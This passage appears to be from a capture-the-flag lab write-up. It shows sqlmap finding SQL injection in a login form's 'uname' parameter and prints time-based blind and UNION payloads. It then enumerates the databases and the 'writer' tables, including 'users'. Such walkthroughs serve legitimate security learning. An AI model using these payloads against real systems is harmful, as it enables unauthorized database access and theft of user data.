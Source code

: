     [13:11:41] [INFO] POST parameter 'uname' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
    POST parameter 'uname' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
    sqlmap identified the following injection point(s) with a total of 74 HTTP(s) requests:
    ---
    Parameter: uname (POST)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: uname=admin' AND (SELECT 7088 FROM (SELECT(SLEEP(5)))exRW) AND 'ensx'='ensx&password=password
    
        Type: UNION query
        Title: Generic UNION query (NULL) - 6 columns
        Payload: uname=admin' UNION ALL SELECT NULL,CONCAT(0x71717a7871,0x425661596272756b4b514b6256615342427047497762494465795943666c5051615368477176556d,0x716b627a71),NULL,NULL,NULL,NULL-- -&password=password
    ---
    ...[snip]...
    
    

The first line after the `...[snip]...` above shows it asking about the
redirect. By default, `sqlmap` will follow the redirect, and therefore it will
miss the union injection because the results don’t show up in the redirected
page. If I accept the default there (or run with `--batch`) it will only find
the time-based injection, which is _really_ slow.

#### Database Enumeration

Now `sqlmap` can show what’s in the DB. First list the databases (making sure
not to follow the redirect):

    
    
    oxdf@parrot$ sqlmap -r login.req --dbs
    ...[snip]...
    got a refresh intent (redirect like response common to login pages) to '/dashboard'. Do you want to apply it from now on? [Y/n] n
    available databases [2]:
    [*] information_schema
    [*] writer
    ...[snip]...
    

List the tables in `writer` (not shown, but telling it not to follow the
redirect every time from now on):

    
    
    oxdf@parrot$ sqlmap -r login.req -D writer --tables
    ...[snip]...
    Database: writer
    [3 tables]
    +---------+
    | site    |
    | stories |
    | users   |
    +---------+
    ...[snip]...
    